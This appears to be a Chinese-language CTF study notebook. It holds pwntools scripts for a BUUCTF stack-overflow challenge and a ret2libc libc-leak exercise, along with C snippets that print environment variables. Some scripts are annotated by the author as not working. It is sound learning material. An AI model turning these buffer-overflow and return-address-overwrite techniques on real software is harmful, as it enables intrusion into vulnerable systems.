

### buu

pwn1_sctf_2016

查看保护




存在后门函数


不懂c++ 有空需要补一下了

std::string::string

I会替换成you,至于为什么,,,先留下个坑吧

输入为32字节,栈长度3C = 48+ 12 = 60 字节 所以需要10个i,然后


3C - 4 = 38

38  + eip + ebp 


#### 遇到的问题

pwntools sendafter接收不到...

```python
这个可以
from pwn import *
io = process("./pwn")
payload = b'I'*20 + b'a'*0x4 + p32(0x8048F0D)
io.sendline(payload) 
io.interactive()


这个不行
from pwn import *

context.log_level= "debug"
io = process("./pwn")

payload = b'i' * 10  + p32(0x08048F0D)

io.sendafter("yourself:",payload)
io.interactive()


```


Send 和sendline啥区别..


#### ciscn


ret2libc

为啥这个就可以

```python
##!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher

sh = process('./ret2libc3')

context.terminal = ['tmux', 'splitw', '-h']
#gdb.attach(sh)
#pause()


ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']
#print(hex(puts_plt))
print("leak libc_start_main_got addr and return to main again")
payload = flat([b'A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print("get the related addr")
libc_start_main_addr = u32(sh.recv()[0:4])
print(hex(libc_start_main_addr))
```


还有就是为什么要用下面的puts来泄漏地址,上面的不行吗..


### 环境变量学习

来自《计算机安全导论:深度实践》

```c
输出所有环境变量,在c的main函数中用envp(只能在这用)
#include <stdio.h>
void main(int argc, char* argv[], char* envp[])
{
        int i =0 ;
        while (envp[i] != NULL)
        {
                printf("%s\n",envp[i++]);
        }
}

或者另一种方法,用全局变量environ(更推荐)
#include <stdio.h>

extern char** environ;
void main(int argc, char* argv[], char* envp[])
{
        int i =0 ;
        while (environ[i] != NULL)
        {
                printf("%s\n",environ[i++]);
        }
}
```


